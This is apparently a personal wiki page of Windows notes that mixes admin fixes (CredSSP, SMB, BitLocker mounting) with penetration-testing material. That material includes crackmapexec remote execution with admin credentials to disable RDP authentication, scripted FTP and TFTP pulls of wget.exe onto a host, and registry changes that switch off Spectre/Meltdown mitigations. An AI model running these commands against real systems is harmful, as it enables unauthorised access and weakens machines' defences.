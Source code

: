 ```yaml
---
title: Windows
description: A quick summary of Windows
published: true
date: 2025-02-15T20:20:16.152Z
tags: 
editor: markdown
dateCreated: 2022-10-01T21:29:03.176Z
---
```


# Active Directory Attacks
[mimikatz](/mimikatz) - Need SYSTEM access on a Domain joined machine
[golden-ticket](/goldenticket) - Need kerberos hash from DC, and Domain Sid (which should be easy)

[windows-attack-articles](/windows-attack-articles) - to read someday

# Speak to me in English please
Changes windows error messages back to english

```
C:\> chcp 437
```


# WPAD - "Can you tell me where the internet is?"
[wpad](/wpad)

# Current patch checking
https://docs.microsoft.com/en-us/windows/security/threat-protection/mbsa-removal-and-guidance

# CredSSP Fixing also NLA (In case that's searched for)
## On Clients that cant connect
Need to make the following key in the registry and add a value.
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\CredSSP\Parameters
AllowEncryptionOracle = dword32:00000002

```text
reg version
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System\CredSSP\Parameters" /v AllowEncryptionOracle /d 2 /f
```

## On Servers that wont let you connect
```text
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\Winstations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```

## Using Crackmapexec
```text
 crackmapexec smb 10.0.0.186 -u Administrator -p NewAdminPassword1! --exec-method smbexec -x 'reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\Winstations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f'
 ```
 
Hasn't worked yet:
```text
crackmapexec smb 10.0.0.186 -u Administrator -p NewAdminPassword1! --exec-method smbexec -X 'Disable-WSManCredSSP -Role Server'
```

# SMBv1 Allowance

```text
Search in the start menu for 'Turn Windows features on or off' and open it.
Search for 'SMB1.0/CIFS File Sharing Support' in the list of optional features that appears, and select the checkbox next to it.
Click OK and Windows will add the selected feature.
```

SMB 1 should be enabled by default but it won`t be used if SMB2.0 or SMB 3.0 is available.

If your NAS device only supports SMB 1.0, we could try to disable SMB 2.0 and SMB3.0 to force the Windows 10 machine to use SMB 1.0 to access the share by running the following command line.

Disable SMB2.0 and SMB 3.0
```text
sc.exe config lanmanworkstation depend= bowser/mrxsmb10/nsi
sc.exe config mrxsmb20 start= disabled
```

https://support.microsoft.com/en-sg/help/2696547/detect-enable-disable-smbv1-smbv2-smbv3-in-windows-and-windows-server

# Mounting a samba share in windows 10
Doesn't need to be admin (if you do it as admin, regular users can't see it).
neither user nor password need to be valid.

```
net use \\10.0.0.4\disks /user:test abc
```

# Mounting a Bitlocker Disk in Linux
Note to boot into linux on thinkpad had to disable secure boot and allow legacy boot.  Otherwise it sees usb but ignores.
Supposedly there's a utility to make UEFI linux bootable sticks but  I haven't tried.

```text
sudo apt-get install gcc cmake make libfuse-dev libmbedtls-dev ruby-dev
git clone https://github.com/Aorimn/dislocker.git /tmp/dislocker

cd /tmp/dislocker
cmake .
make
sudo make install

dislocker -r -V /dev/sda1 -p315442-000000-000000-000000-000000-000000-000000-000000 -- /media/windows (replace your own bitlocker key and source partition)
mount -o loop dislocker-file /media/mount
```

# Windows AD Hacking

https://github.com/mantvydasb/RedTeam-Tactics-and-Techniques/tree/master/offensive-security-experiments/active-directory-kerberos-abuse

# GPO to turn of screen lock

```text
Edit Group Policies
Computer Config -> Admin Templates -> System -> Power Management > Video and Display Settings -> Turn off the Display
Enable, and set time to 0

gpupdate /force
```

# Disable Spectre Mitigations

 To disable mitigations for CVE-2017-5715 (Spectre Variant 2) and CVE-2017-5754 (Meltdown)
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management" /v FeatureSettingsOverride /t REG_DWORD /d 3 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management" /v FeatureSettingsOverrideMask /t REG_DWORD /d 3 /f 
```

# Scripted FTP
```
echo open 192.168.1.101 21> ftp.txt
echo USER asshat>> ftp.txt
echo mysecretpassword>> ftp.txt
echo bin>> ftp.txt
echo GET wget.exe>> ftp.txt
echo bye>> ftp.txt
```

And then
```
ftp -v -n -s:ftp.txt
```

# TFTP
up to windows 2003
```
tftp -i 192.160.1.101 GET wget.exe
```






